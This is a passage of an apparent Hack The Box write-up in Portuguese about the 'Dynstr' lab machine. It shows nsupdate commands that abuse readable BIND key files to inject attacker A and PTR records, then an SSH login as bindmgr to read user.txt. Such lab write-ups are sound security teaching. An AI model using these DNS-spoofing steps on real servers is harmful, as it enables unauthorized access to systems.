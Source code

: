 ```bash
www-data@dynstr:/dev/shm$ cat nsupdate
server 127.0.0.1
zone dyna.htb
update delete attacker.infra.dyna.htb
update add attacker.infra.dyna.htb 30 IN A 10.10.10.10
send
www-data@dynstr:/dev/shm$ cat nsupdate | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key
update failed: REFUSED
```

  - Após alguma pesquisa, encontrei que o status REFUSED poderia ocorrer se utilizasse uma chave inválida e, validando o diretório onde a chave `ddns.key` está localizada, encontrei outros dois arquivos (conforme abaixo) que poderiam ser utilizados, para o qual o `infra.key` retornou o sucesso esperado, embora ainda não tenha conseguido me conectar via SSH

```bash
www-data@dynstr:/dev/shm$ ls -la /etc/bind/*.key
-rw-r--r-- 1 root bind 100 Mar 15 20:44 /etc/bind/ddns.key
-rw-r--r-- 1 root bind 101 Mar 15 20:44 /etc/bind/infra.key
-rw-r----- 1 bind bind 100 Mar 15 20:14 /etc/bind/rndc.key
```

  - Com algum troubleshooting adicional notei que a partir do servidor DNS era capaz de resolver o nome `attacker.infra.dyna.htb` mas a busca a reversa, a partir do endereço IP não era possível. Para contornar isso, incluí no comando de `nsupdate` as instruções necessárias para também incluir o registro do tipo PTR no DNS. Um ponto crucial que tive que fazer troubleshoot foi que entre as entradas A e PTR **deve existir uma linha em branco**, caso contrário o update falhará.

```bash
www-data@dynstr:/dev/shm$ cat nsupdate
server 127.0.0.1
update add attacker.infra.dyna.htb 30 A 10.10.10.10
send

update add 121.14.10.10.in-addr.arpa 30 PTR attacker.infra.dyna.htb
send
www-data@dynstr:/dev/shm$ cat nsupdate | /usr/bin/nsupdate -t 1 -k /etc/bind/infra.key
www-data@dynstr:/dev/shm$
```

  - Após os devidos ajustes, fui capaz de me conectar com a conta `bindmgr` via SSH e ler o conteúdo do arquivo `user.txt`

```bash
bindmgr@dynstr:~$ ls -la
total 36
drwxr-xr-x 5 bindmgr bindmgr 4096 Mar 15 20:39 .
drwxr-xr-x 4 root    root    4096 Mar 15 20:26 ..
lrwxrwxrwx 1 bindmgr bindmgr    9 Mar 15 20:29 .bash_history -> /dev/null
-rw-r--r-- 1 bindmgr bindmgr  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 bindmgr bindmgr 3771 Feb 25  2020 .bashrc
drwx------ 2 bindmgr bindmgr 4096 Mar 13 12:09 .cache
-rw-r--r-- 1 bindmgr bindmgr  807 Feb 25  2020 .profile
drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 12:09 .ssh
drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 14:53 support-case-C62796521
-r-------- 1 bindmgr bindmgr   33 Aug 16 15:49 user.txt
bindmgr@dynstr:~$ cat use
cat: use: No such file or directory
bindmgr@dynstr:~$ cat user.txt
<redacted>
```

